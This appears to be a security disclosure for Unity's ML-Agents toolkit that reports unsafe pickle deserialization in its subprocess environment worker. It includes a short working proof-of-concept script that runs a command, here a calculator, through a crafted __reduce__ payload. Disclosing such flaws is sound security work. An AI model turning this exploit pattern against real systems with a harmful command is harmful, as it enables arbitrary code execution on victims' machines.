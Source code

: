 # Description
The Unity Machine Learning Agents Toolkit (ML-Agents) is an open-source project that enables games and simulations to serve as environments for training intelligent agents.
* **Vulnerability description**
    untrusted loading of data by the pickle.load function leading to Arbitrary code execution.

# Proof of Concept
Run exploit.py
```
import os
import pickle
#os.system('pip install mlagents')
from mlagents.trainers import subprocess_env_manager
#payload formation
class ArbitraryCode:
    def __reduce__(self):
        cmd = ('xcalc')
        return os.system, (cmd,)
dumps = pickle.dumps(ArbitraryCode())
subprocess_env_manager.worker(dumps,dumps,dumps,dumps,dumps)
```
* `pip3 install mlagents`
* `python3 exploit.py`
